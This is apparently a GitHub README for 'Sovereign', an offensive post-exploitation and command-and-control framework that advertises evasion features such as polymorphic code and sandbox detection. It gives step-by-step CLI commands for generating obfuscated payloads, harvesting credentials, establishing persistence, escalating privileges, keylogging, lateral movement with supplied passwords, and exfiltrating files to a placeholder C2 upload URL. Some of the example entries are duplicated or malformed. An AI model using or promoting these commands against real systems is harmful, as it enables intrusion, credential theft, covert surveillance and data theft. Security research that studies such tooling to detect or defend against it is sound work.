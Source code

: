 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Logging and Reporting**: Detailed logging and report generation.

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    ```bash
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate
    ```

2. **Install the required dependencies**:
    ```bash
    pip install -r c2_server/requirements.txt
    ```

3. **Run the C2 server**:
    ```bash
    python c2_server/c2_server.py
    ```

### Using the CLI

The CLI provides various commands to interact with the framework.

#### List all registered agents:
```bash
python cli/cli.py list-agents
```

#### Interact with a specific agent:
```bash
python cli/cli.py select-agent AGENT_ID
```

#### Send a command to a specific agent:
```bash
python cli/cli.py send-command --agent_id AGENT_ID --command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```bash
python cli/cli.py generate-payload --platform PLATFORM
```

#### Harvest credentials:
```bash
python cli/cli.py harvest-credentials
```

#### Establish persistence:
```bash
python cli/cli.py establish-persistence
```

#### Escalate privileges:
```bash
python cli/cli.py escalate-privileges
```

#### Gather system information:
```bash
python cli/cli.py gather-system-info
```

#### Exfiltrate data:
```bash
python cli/cli.py exfiltrate-data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
```

#### Start keylogger:
```bash
python cli/cli.py start-keylogger --log_file_path /path/to/log_file
```

#### Move laterally:
```bash
python cli/cli.py move-laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
```

### Example Commands

1. **Listing all registered agents**:
    ```bash
    python cli/cli.py list-agents
    ```

2.    #### Interact with a specific agent:
```bash
python cli/cli.py select-agent AGENT_ID
```

3.    #### Interact with a specific agent:
```bash
Get-ComputerInfo
```

4. **Sending a command to a specific agent**:
    ```bash
    python cli/cli.py send-command --agent_id 1234-5678-9101-1121 --command "whoami"
    ```

5. **Generating a payload for Windows**:
    ```bash
    python cli/cli.py generate-payload --platform windows
    ```

6. **Harvesting credentials**:
    ```bash
    python cli/cli.py harvest-credentials
    ```

7. **Establishing persistence**:
    ```bash
    python cli/cli.py establish-persistence
    ```

8. **Escalating privileges**:
    ```bash
    python cli/cli.py escalate-privileges
    ```

9. **Gathering system information**:
    ```bash
    python cli/cli.py gather-system-info
    ```

10. **Exfiltrating data**:
    ```bash
    python cli/cli.py exfiltrate-data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
    ```

11. **Starting a keylogger**:
    ```bash
    python cli/cli.py start-keylogger --log_file_path /path/to/log_file
    ```

12. **Moving laterally**:
    ```bash
    python cli/cli.py move-laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
    ```

### Logging and Reporting

Logs are stored in the `c2_server.log` file located in the `c2_server` directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data, run the following command:
```bash
python c2_server/c2_server.py generate-report
```
This will create a `report.txt` file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

### Adding New Modules

To add new post-exploitation modules, create a new Python file in the `c2_server/modules` directory and implement the desired functionality. Update the CLI script to include commands for the new module.

### Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

### License

This project is licensed under the MIT License.

# By the way, we pwn things.....
